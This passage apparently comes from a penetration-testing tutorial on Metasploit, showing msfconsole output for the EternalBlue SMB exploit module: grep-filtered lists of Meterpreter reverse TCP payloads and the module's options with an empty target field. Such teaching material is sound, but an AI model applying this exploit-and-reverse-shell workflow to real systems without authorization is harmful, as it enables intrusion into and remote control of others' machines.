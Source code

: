 &#x20; Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter grep reverse_tcp show payloads

[*] 3
```

With the help of `grep`, we reduced the list of payloads we wanted down to fewer. Of course, the `grep` command can be used for all other commands. All we need to know is what we are looking for.

***

### Selecting Payloads

Same as with the module, we need the index number of the entry we would like to use. To set the payload for the currently selected module, we use `set payload <no.>` only after selecting an Exploit module to begin with.

**MSF - Select Payload**

&#x20; Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
```